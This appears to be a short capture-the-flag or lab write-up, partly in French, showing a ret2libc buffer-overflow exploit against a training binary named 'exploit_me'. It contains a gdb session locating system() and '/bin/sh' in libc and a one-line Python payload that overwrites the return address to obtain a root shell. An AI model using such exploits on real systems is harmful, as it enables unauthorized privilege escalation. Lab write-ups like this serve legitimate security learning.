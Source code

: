 End of assembler dump.
(gdb) break *0x08048425
Breakpoint 1 at 0x8048425
(gdb) r $(python -c 'print "a"*142')
Starting program: /home/zaz/exploit_me $(python -c 'print "a"*142')

Breakpoint 1, 0x08048425 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.

pour lapl systeme 0xb7e6b060
apres lutilisation du find de __libc_start_main -> +99999999 on a  0xb7f8cc58 pour "/bin/sh"

./exploit_me `python -c "print('0' * 140 + '\x60\xb0\xe6\xb7' + '1234' + '\x58\xcc\xf8\xb7')"`

Et nous voila root








